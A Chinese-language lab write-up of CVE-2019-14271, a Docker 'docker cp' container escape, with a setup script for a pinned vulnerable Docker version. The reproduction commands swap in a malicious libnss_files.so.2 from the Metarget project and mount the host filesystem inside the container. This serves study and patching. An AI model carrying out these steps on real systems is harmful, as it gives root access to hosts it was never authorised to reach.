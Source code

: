 # Docker copy 漏洞导致容器逃逸 CVE-2019-14271

## 漏洞描述

`docker cp` 命令允许从容器、向容器中、或容器之间复制文件。语法与标准的 unix cp 命令非常相似。要从容器中复制 `/var/logs`，语法是 `docker cp container_name:/var/logs /some/host/path`。

在复制的过程中 Docker 使用了一个名为 `docker-tar` 的帮助进程。`docker-tar` 是通过 chroot 到容器，将请求的文件或目录存档，然后将生成的 tar 文件传递给 Docker daemon，然后由 daemon 提取到主机的目标目录中。

有漏洞的 Docker 版本是用 Go v1.11 编译的。在该版本中，一些含有嵌入 C 代码（cgo）的包会在运行时动态加载共享的库。这些包包括 `net` 和 `os/user`，都是 docker-tar 使用的，而且在运行时会加载多个 `libnss_*.so` 库。一般来说，库是从 `host` 文件系统加载的，但因为 `docker-tar`chroot 到了容器，因此会从容器文件系统中加载库。也就是说 `docker-tar` 会加载和执行来源于容器或由容器控制的代码。因此，通过注入代码到 `docker-tar`，恶意容器就可以获取 host 主机的完全 root 访问权限。

可能的攻击场景有 Docker 用户从另一个 Docker 处复制文件:

- 容器运行含有恶意 `libnss_*.so` 库的镜像
- 容器中含有被攻击者替换的 `libnss_*.so` 库

在这两种情况下，攻击者都可以获取主机上的 root 代码执行权限。

参考链接：

- https://xz.aliyun.com/t/6806
- https://nvd.nist.gov/vuln/detail/CVE-2019-14271
- https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/
- https://github.com/Metarget/metarget

## 漏洞影响

```
v18.09.9<= Docker <v19.03.8
```

## 环境搭建

ubuntu 18.04 使用以下脚本 `install_docker_19.03.0.sh` 安装 Docker 19.03.0：

```shell
#!/bin/bash
set -e
echo "[*] Removing old Docker versions (if any)..."
sudo apt remove -y docker docker-engine docker.io containerd runc || true

echo "[*] Unholding previously held Docker packages (if any)..."
sudo apt-mark unhold docker-ce docker-ce-cli containerd.io || true

echo "[*] Removing incorrect Docker sources..."
sudo rm -f /etc/apt/sources.list.d/docker.list || true
sudo sed -i '/download.docker.com/d' /etc/apt/sources.list

echo "[*] Adding Tsinghua University Docker mirror GPG key..."
wget -qO - https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu/gpg | sudo apt-key add -

echo "[*] Adding Tsinghua University Docker mirror repository..."
echo "deb [arch=amd64] https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu bionic stable" \
  | sudo tee /etc/apt/sources.list.d/docker.list

echo "[*] Updating package index..."
sudo apt update

echo "[*] Searching for Docker 19.03.0..."
VERSION_STRING=$(apt-cache madison docker-ce | grep 19.03.0 | head -n1 | awk '{print $3}')
if [ -z "$VERSION_STRING" ]; then
  echo "[*] Docker 19.03.0 not found"
  exit 1
fi
echo "[*] Found version: $VERSION_STRING"

echo "[*] Installing Docker version $VERSION_STRING ..."
sudo apt install -y docker-ce=$VERSION_STRING docker-ce-cli=$VERSION_STRING containerd.io

echo "[*] Locking version to prevent automatic updates..."
sudo apt-mark hold docker-ce docker-ce-cli containerd.io

echo "[*] Installation complete, current version:"
docker --version
```

![](images/Docker%20copy%20漏洞导致容器逃逸%20CVE-2019-14271/image-20250526134145172.png)

## 漏洞复现

新建一个容器：

```shell
sudo docker run -itd --name=14271 ubuntu bash
```

将 [漏洞利用文件](https://github.com/Metarget/metarget/tree/master/writeups_cnv/docker-cve-2019-14271/exp) 拷贝至容器内：

```shell
sudo docker cp ./metarget/writeups_cnv/docker-cve-2019-14271/exp/ 14271:/
```

删除容器内原来的 .so 文件，替换为修改后的恶意 .so 文件：

```shell
sudo docker exec -it 14271 bash
root@7271b49ce3d1:/# ls /exp
breakout  libnss_files.so.2  original_libnss_files.so.2
root@7271b49ce3d1:/# cp /exp/* /
root@7271b49ce3d1:/# chmod 777 /breakout
root@7271b49ce3d1:/# touch /logs
root@7271b49ce3d1:/# rm /lib/x86_64-linux-gnu/libnss_files.so.2
root@7271b49ce3d1:/# mv /libnss_files.so.2 /lib/x86_64-linux-gnu/
root@7271b49ce3d1:/# exit
exit
```

替换后退出容器，在宿主机上执行 cp 命令完成逃逸：

```shell
sudo docker cp 14271:/logs ./
```

进入容器内部，可发现根目录下存在 `host_fs` 目录挂载了宿主机的文件系统，成功逃逸：

```shell
sudo docker exec -it 14271 bash
root@7271b49ce3d1:/# ls -al / | grep host_fs
drwxr-xr-x  24 root root 4096 May 26 05:46 host_fs
```

![](images/Docker%20copy%20漏洞导致容器逃逸%20CVE-2019-14271/image-20250526135350026.png)

## 漏洞修复

- 升级至最新版本 https://docs.docker.com/engine/release-notes/
